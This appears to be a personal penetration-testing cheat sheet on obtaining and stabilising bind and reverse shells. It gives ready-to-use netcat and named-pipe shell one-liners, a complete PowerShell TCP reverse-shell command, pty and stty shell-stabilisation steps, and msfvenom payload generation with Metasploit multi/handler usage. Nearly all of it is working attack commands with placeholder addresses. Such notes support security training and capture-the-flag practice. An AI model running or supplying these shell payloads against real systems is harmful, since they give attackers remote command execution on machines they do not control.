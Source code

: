 ```nc -lvnp 192.168.1.1 8181``` : Create listener 

```nc <LOCAL-IP> <PORT> -e /bin/bash``` : Execute bash on connection 

```nc 192.168.1.2 8181``` : Bind to listener @ 192.168.1.2:8181

```nc -lvnp <PORT> -e /bin/bash``` : Execute bash on connection to listener. Can be used as bind shell

note: -e is not included in most versions of netcat due to its insecurity. On windows can use a static binary, while on linux we can use.

```mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : bind shell

```mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : reverse shell
  
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"``` : powershell reverse shell

Stabilizing netcat reverse shell on linux.
technique 1.

1. ```python -c 'import pty;pty.spawn("/bin/bash")'``` : replace python with python2 or python3 where necessary
2. ```export TERM=xterm``` : this will give us access to term commands such as clear
3. background the shell using Ctrl + Z. and then do ```stty raw -echo; fg``` : turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

technique 2.
with rlwrap listener(not installed by default)
1. background the shell using Ctrl + Z. and then do ```stty raw -echo; fg``` : turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

technique 3.
transfer socat static compiled binary to target machine. (wget on linux or invoke-webrequest on windows)

change your terminal tty size
open another terminal and run ```stty -a```. Note down the values for "rows" and columns:

based on output values type in:

stty rows <number> 
  
stty cols <number>
  
 msfvenom --list payloads 
  
to generate the payloads which can be used to get bind or reverse shells we can use msfvenom.

```msfvenom -p <PAYLOAD> <OPTIONS>```
  
```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>```

-f: Specifies output format, -o : output location and filename

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

<OS>/<arch>/<payload> : linux/x86/shell_reverse_tcp

Staged vs Stageless

You can send pyaloads in parts(stages) or all at once. As may be obvious this can have affects on detection based on size.

Staged: Payload sent in two parts. Small stager is sent and run onserver. This is small programmer which can connect back to listener but not actually create shell. Stager can then download the bigger payload to create shell. Requires special listener like metasploits multi/handler.

Stageless: send everything at once.

The payload shell_reverse_tcp indicates that it is a stageless payload. Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:
shell/reverse_tcp

As staged payloads are denoted with another forward slash (/).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

windows/x64/meterpreter/reverse_tcp

A Linux 32bit stageless Meterpreter payload would look like this:

linux/x86/meterpreter_reverse_tcp

when dealing with staged payloads metasploits multi/handler is good way to catch shells.

set PAYLOAD specific to target, aswell as lhost and lport 

exploit -j : runs listerner as job in background

